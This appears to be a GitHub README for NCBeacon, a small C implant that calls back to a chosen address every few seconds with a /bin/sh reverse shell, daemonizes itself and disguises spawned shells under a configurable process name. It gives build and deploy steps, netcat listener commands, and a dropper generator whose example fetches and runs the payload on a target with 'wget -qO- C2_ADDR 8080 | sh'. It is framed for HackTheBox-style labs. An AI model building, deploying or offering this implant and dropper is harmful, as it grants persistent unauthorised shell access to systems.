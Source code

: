 NCBeacon
--------
A small beaconing implant meant to be caught with netcat.  This was written
after watching someone hack [hackthebox](hackthebox.eu) boxes, lose his shell a
few times, and have to re-exploit to get it back.  All it does is call back
every few seconds.

Features
- Calls back with `/bin/sh` hooked up to the TCP connection every 5 seconds
- [Daemonizes](https://man.openbsd.org/daemon) itself
- Dissociates the shells it spawns from the parent process
- Spawned shells have a configurable name (i.e. `argv[0]`)

For legal use only, though you'd probably be doing law enforcement a favor if
you used this for illegal purposes.

Quickstart
----------
1. Build it (replacing the `CALLBACK_ADDRESS` with the correct address)
```sh
cc -O2 -DCBADDR=CALLBACK_ADDRESS -o ncbeacon ncbeacon.c
```
2. Put it on target
```sh
# This one's up to you
```
3. Set up netcat to catch it
```sh
rlwrap nc -nvlp 4444
```
4. Start it, on target
```sh
./ncbeacon
```

Configuration
-------------
There are a few compile-time settings controlled by macros (i.e. -DNAME=VALUE)

Macro    | Required | Default | Description
---------|----------|---------|------------
`CBADDR` | **Yes**  | _None_  | Callback Address
`CBPORT` |  No      | `4444`  | Callback Port
`CBWAIT` |  No      | `5`     | Time between callbacks, in seconds
`SHNAME` |  No      | `knetd` | Name (`argv[0]`) of spawned shells
`DEBUG`  |  No      | _Unset_ | If set, logs errors and prevents backgrounding

Excessive Process Spawning
--------------------------
One of the downsides of spawnining a new process to call back ever few seconds
is that if something accepts the connection and never closes it, the process
doesn't die.  I'm looking at you OpenBSD
[`nc(1)`](https://man.openbsd.org/nc.1).  This can be solved by using a tool
to catch the connection which closes the listening socket after accepting a
connection, such as ncat.

The included program [nccatch](./nccatch.c) will also happily catch a
connection from ncbeacon.  Build it with
```sh
cc -O2 -o nccatch nccatch.c
```

Give it either a port or an address and port, like `./nccatch 4444` or
`./nccatch 127.0.0.1 4444`.

OPSEC Considerations
--------------------
This is bad.

- No encryption
- No authentication
- Very frequent connection attempts
- Very regular connection attempts
- Connects up a shell to stdio (have a look at `/proc/$$/fd`)

In other words, this is pretty much only suitable for HTB and similar safe
environments.  Please don't use this for actual engagements unless you have a
very good reason to.

Dropper
-------
The included [bin2dropper.sh](./bin2dropper.sh) will generate a shell script
which drops and runs a payload.  It takes a payload file and writes to stdout a
script which will drop the payload, run it, and remove it.  Prerequisites on
target are openssl and gunzip.

Example:
```sh
./bin2dropper.sh -d sneaky ./ncbeacon | nc -Nnvl 8080 # On C2 infrastructure
cd /tmp; wget -qO- C2_ADDR 8080 | sh                  # On target
```
This will use wget to grab a script which drops `./ncbeacon` to `/tmp/sneaky`
and runs it as `sneaky`.

You can now mark off "in-memory dropper execution" on your buzzword bingo card.
